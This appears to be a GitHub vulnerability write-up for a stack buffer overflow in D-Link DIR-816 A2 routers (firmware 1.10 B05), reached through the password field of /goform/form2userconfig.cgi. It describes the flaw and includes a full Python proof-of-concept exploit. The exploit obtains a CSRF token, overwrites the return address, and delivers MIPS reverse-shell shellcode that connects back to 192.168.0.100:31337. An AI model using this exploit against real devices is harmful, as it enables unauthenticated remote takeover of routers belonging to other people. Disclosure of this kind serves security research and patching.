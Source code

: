 # D-Link DIR-816 A2 Stack Overflow
##### Vender & Firmware version ：D-Link 1.10 B05 
##### Exploit Author: ScareCrowL 
##### Vendor Homepage: http://www.dlink.com.cn/
##### Hardware Link: http://support.dlink.com.cn/ProductInfo.aspx?m=DIR-816 
# Vulnerability Description
##### Stack-based buffer overflows found on d-link dir-816 A2 1.10 B05 devices allow arbitrary remote code execution without authentication.Embodied in the /goform/form2userconfig.cgi handler function, long password may lead to stack-based buffer overflow and cover the return address.
# Vulnerability Detail
##### In the route /goform/form2userconfig.cgi handler.The value of the parameter password is base64 decoded, and the result is stored on the stack without checking the password length.
![image](https://github.com/RootSoull/Vuln-Poc/blob/master/D-Link/DIR-816/IDA.jpg)
##### There's no check on length of the password, and a very long input could lead to stack overflow and overwrite the return address:
![image](https://github.com/RootSoull/Vuln-Poc/blob/master/D-Link/DIR-816/GDB.jpg)
##### Fortunately, the heap is at fixed address with permission rwx. So we could build a very large HTTP header which contains the shellcode, and set the return address to that shellcode.
##### After running the poc, we easily get the shell.
![image](https://github.com/RootSoull/Vuln-Poc/blob/master/D-Link/DIR-816/GETSHELL.png)
# POC
```python
#!/usr/bin/env python
# POC code reference: https://github.com/PAGalaxyLab/VulInfo/tree/master/D-Link/DIR-816/stack_overflow_1

from pwn import *
import requests

# First, we need the CSRF token
r=requests.get('http://192.168.0.1/dir_login.asp')
for l in r.content.split('\n'):
    if 'tokenid' in l:
        q2 = l.rfind('"')
        q1 = l[:q2].rfind('"')
        tokenid = l[q1+1:q2]

print 'tokenid is %s' % tokenid


# The return address will be overwritten as newRet (sample:0x0048fba8)
newRet = '\xa8\xfb\x48\x00'

# Reverse shell to 192.168.0.100:31337
shellcode = "\xff\xff\x04\x28\xa6\x0f\x02\x24\x0c\x09\x09\x01\x11\x11\x04\x28"
shellcode += "\xa6\x0f\x02\x24\x0c\x09\x09\x01\xfd\xff\x0c\x24\x27\x20\x80\x01"
shellcode += "\xa6\x0f\x02\x24\x0c\x09\x09\x01\xfd\xff\x0c\x24\x27\x20\x80\x01"
shellcode += "\x27\x28\x80\x01\xff\xff\x06\x28\x57\x10\x02\x24\x0c\x09\x09\x01"
shellcode += "\xff\xff\x44\x30\xc9\x0f\x02\x24\x0c\x09\x09\x01\xc9\x0f\x02\x24"
shellcode += "\x0c\x09\x09\x01\x79\x69\x05\x3c\x01\xff\xa5\x34\x01\x01\xa5\x20"
shellcode += "\xf8\xff\xa5\xaf\x00\x64\x05\x3c\xc0\xa8\xa5\x34\xfc\xff\xa5\xaf"
shellcode += "\xf8\xff\xa5\x23\xef\xff\x0c\x24\x27\x30\x80\x01\x4a\x10\x02\x24"
shellcode += "\x0c\x09\x09\x01\x62\x69\x08\x3c\x2f\x2f\x08\x35\xec\xff\xa8\xaf"
shellcode += "\x73\x68\x08\x3c\x6e\x2f\x08\x35\xf0\xff\xa8\xaf\xff\xff\x07\x28"
shellcode += "\xf4\xff\xa7\xaf\xfc\xff\xa7\xaf\xec\xff\xa4\x23\xec\xff\xa8\x23"
shellcode += "\xf8\xff\xa8\xaf\xf8\xff\xa5\x23\xec\xff\xbd\x27\xff\xff\x06\x28"
shellcode += "\xab\x0f\x02\x24\x0c\x09\x09\x01"

pMy= "L"*156+ newRet

rn = "\r\n"
padding = "\x00\x00\x00\x00"

pBuf= "username=A&oldpass=&newpass="+b64e(pMy)+"&confpass="+'&modify=B&select=s0&hiddenpass=&submit.htm=Send&tokenid=%s'% tokenid

payload = "POST /goform/form2userconfig.cgi " + "HTTP/1.1" + rn
payload += "Host: 192.168.0.1"+rn
payload += "User-Agent: Mozilla/5.0 (X11; Ubuntu; Linux x86_64; rv:59.0) Gecko/20100101 Firefox/59.0" + rn
payload += "Accept: text/html,application/xhtml+xml,application/xml;q=0.9,*/*;q=0.8" + rn
payload += "Accept-Language: en-US,en;q=0.5" + rn
payload += "Accept-Encoding: gzip, deflate" + rn
payload += "Cookie: curShow=; ac_login_info=passwork; test=A" + padding*0x100 + shellcode + padding*0x4000 + rn
payload += "Connection: close" + rn
payload += "Upgrade-Insecure-Requests: 1" + rn
payload += ("Content-Length: %d" % len(pBuf)) +rn
payload += 'Content-Type: application/x-www-form-urlencoded'+rn
payload += rn
payload += pBuf

p = remote('192.168.0.1', 80)
p.send(payload)
print p.recv()
```
